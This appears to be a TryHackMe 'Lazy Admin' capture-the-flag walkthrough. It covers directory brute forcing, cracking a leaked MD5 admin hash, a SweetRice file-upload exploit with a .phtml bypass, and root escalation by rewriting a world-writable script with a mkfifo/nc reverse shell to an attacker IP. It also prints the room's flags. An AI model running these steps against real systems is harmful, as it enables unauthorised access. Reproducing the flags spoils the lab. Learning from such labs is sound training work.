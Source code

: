 # Lazy Admin (THM)

- https://tryhackme.com/room/lazyadmin
- March 3, 2023
- easy

---

## Enumeration

- Nmap Initial

1. 22/ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.18 ((Ubuntu))
   - apache2 ubuntu default page

- check http
- directory brute forcing

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -t 128 -c
```

- `content` found

![](images/2023-03-03-00-59-56.png)

- brute force `/content`

```sh
$ ffuf -u http://$IP/content/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -t 128 -c
```

```
_themes
as
attachment
images
inc
index.php
js
```

- /content/\_themes/default

![](images/2023-03-03-01-13-22.png)

- /content/as/

![](images/2023-03-03-01-15-42.png)

- /content/inc/

![](images/2023-03-03-01-20-06.png)

- sql backup file

![](images/2023-03-03-01-21-57.png)

- download mysql backup file
- it is a php script for sql database
- interesting lines

```
  14 => 'INSERT INTO `%--%_options` VALUES(
    \'1\',
    \'global_setting\',
    \'a:17:{
        s:4:\\"name\\";
        s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";
        s:10:\\"Lazy Admin\\";
        s:5:\\"title\\";
        s:0:\\"\\";
        s:8:\\"keywords\\";
        s:8:\\"Keywords\\";
        s:11:\\"description\\";
        s:11:\\"Description\\";
        s:5:\\"admin\\";
        s:7:\\"manager\\";
        s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";
  ...
  s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

- crack the password may be md5
- passwd -> 42f749ade7f9e195bf475f37a44cafcb:Password123:MD5PLAIN

- enter the `/content/as/` -> with `manager:Password123`

- from searchsploit found `arbitary file upload` for `sweetrice 1.5`
- `searchsploit -m php/webapps/40716.py`
- in that python file, we can upload reverse shell files via `r.post('http://' + host + '/as/?type=media_center&mode=upload', files=file)`

![](images/2023-03-03-01-53-54.png)

- if file extension is php, there is no upload file in `/content/attachment/`
- change file extension to .phtml, uploaded file can be found at `http://$IP/content/attachment/`

- Listen at your machine with nc

```sh
nc -vnlp 4242
```

- curl request to uploaded file

```sh
curl http://$IP/content/attachment/php_shell.phtml
```

- shell with `www-data` user access will get
- inside shell,

```sh
www-data@THM-Chal:/$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

www-data@THM-Chal:/$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

www-data@THM-Chal:/$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

www-data@THM-Chal:/$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

1. www-data can run `sudo /usr/bin/perl /home/itguy/backup.pl` with no password
2. backup.pl run `sh /etc/copy.sh`
3. `/etc/copy.sh` has write access to anyone

- so, change the IP:PORT copy.sh file to our local machine IP:PORT that will listen with nc

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4444 >/tmp/f
```

![](images/2023-03-03-02-23-13.png)

- for flag,

```sh
$ cat /home/itguy/user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}

$ cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}

```

- run linpeas to read the linpeas output later to be familiar with it.

